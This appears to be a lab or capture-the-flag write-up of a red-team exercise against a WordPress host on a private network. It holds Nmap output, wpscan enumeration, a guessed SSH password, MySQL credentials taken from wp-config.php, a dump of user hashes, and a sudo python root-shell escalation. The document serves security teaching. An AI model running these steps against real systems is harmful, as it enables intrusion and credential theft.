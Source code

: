 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation
---
## Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

**Nmap scan report for 192.168.1.1**
Host is up (0.00058s latency).
Not shown: 995 filtered ports

**PORT     STATE SERVICE       VERSION**\
135/tcp  open  msrpc         Microsoft Windows RPC\
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn\
445/tcp  open  microsoft-ds?\
2179/tcp open  vmrdp?\
3389/tcp open  ms-wbt-server Microsoft Terminal Services\
MAC Address: 00:15:5D:00:04:0D (Microsoft)\
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows\
**Nmap scan report for 192.168.1.100**\
Host is up (0.00089s latency).\
Not shown: 998 closed ports

**PORT     STATE SERVICE VERSION**\
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)\
9200/tcp open  http    Elasticsearch REST API 7.6.1 (name: elk; cluster: elasticsearch; Lucene 8.4.0)\
MAC Address: 4C:EB:42:D2:D5:D7 (Intel Corporate)\
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel\
**Nmap scan report for 192.168.1.105**/
Host is up (0.00052s latency).\
Not shown: 998 closed ports

**PORT   STATE SERVICE VERSION**\
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)\
80/tcp open  http    Apache httpd 2.4.29\
MAC Address: 00:15:5D:00:04:0F (Microsoft)\
Service Info: Host: 192.168.1.105; OS: Linux; CPE: cpe:/o:linux:linux_kernel\
**Nmap scan report for 192.168.1.110**\
Host is up (0.00062s latency).\
Not shown: 995 closed ports

**PORT    STATE SERVICE     VERSION**\
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)\
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))\
111/tcp open  rpcbind     2-4 (RPC #100000)  
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)\
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)\
MAC Address: 00:15:5D:00:04:10 (Microsoft)\
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel\
**Nmap scan report for 192.168.1.115**\
Host is up (0.0014s latency).\
Not shown: 995 closed ports

**PORT    STATE SERVICE     VERSION**\
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)\
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))\
111/tcp open  rpcbind     2-4 (RPC #100000)\
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)\
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)\
MAC Address: 00:15:5D:00:04:11 (Microsoft)\
Service Info: Host: TARGET2; OS: Linux; CPE: cpe:/o:linux:linux_kernel\
**Nmap scan report for 192.168.1.90**\
Host is up (0.0000080s latency).\
Not shown: 999 closed ports

![NMAP network scan](Images/1NMAPnetworkscan.png)

---

### This scan identifies the services below as potential points of entry:
- Target 1 
List of Exposed Services
PORT    STATE SERVICE     VERSION\
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)\
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))\
111/tcp open  rpcbind     2-4 (RPC #100000)\
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)\
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

![Target 1 Port Scan](Images/2-5NMAPScan192.168.1.110.png)

### The following vulnerabilities were identified on Target 1:

 ### List of Critical Vulnerabilities
- WordPress XMLRPC GHOST Vulnerability Scanner - CVE-2015-0235
- Wordpress XMLRPC DoS
- Wordpress XML-RPC Username/Password Login Scanner
- Wordpress Pingback Locator - CVE-2013-0235
- Wordpress XML-RPC Pingback API

![WordPress Exploit Scan](Images/3-02Wpscanexploits.png)



### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - flag1{b9bbcb33e11b80be759c4e844862482d}
    - **Exploit Used**
      - First, the Wordpress server was ennumerated with WPSCAN
          The user accounts were found in the results as well as five vunerabilities.
          The accounts were michael and steven
          The password for michael was easily guessed as : michael, revealing no password
          requirements were being enforced.  wpscan was also able to crack steven's password.
        
        wpscan --url 192.168.1.110/wordpress/ -e
        ssh michael@192.168.1.110
        password:michael
        cd /var/www/html
        nano service.html
        
![Flag 1](Images/3-2flag1serviceshtml.png)


   - flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - Using the find command the 2nd flag was revealed to be in /var/www/
        find / -iname flag*
        cd /var/www
        cat flag2.txt

![Flag 2](Images/3-5flag2.png)
      
      
  -  flag3{afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used**
    Searching the /var/www/html directory revealed the wp-config.php file.  Searching that file
    revealed the root password for the MySQL database 'wordpress'.  Using the MySQL credentials
    allowed searching the tables 'wpcomments' and 'wpusers' which revealed a flag and two users hashes 
    respectively.  
    
   mysql -u root -p -h 127.0.0.1
   use wordpress;
   show tables
   select * from wp_comments
   select * from wp_users

 ![Flag 3](Images/6flag3.png)
      
      
  -  flag4{715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used**

   - Using Steven's password, escalation was achived.  Then using python, root was achived
      allowing full access to all directories.  A find was performed, revealing a final flag file 
      in /root/flag4.txt


      su steven
      pink84
      sudo python -c 'import pty;pty.spawn("/bin/bash")'
      find / -iname flag*
      cd /root/
      cat flag4.txt


![Flag 4](Images/9flag4.png)
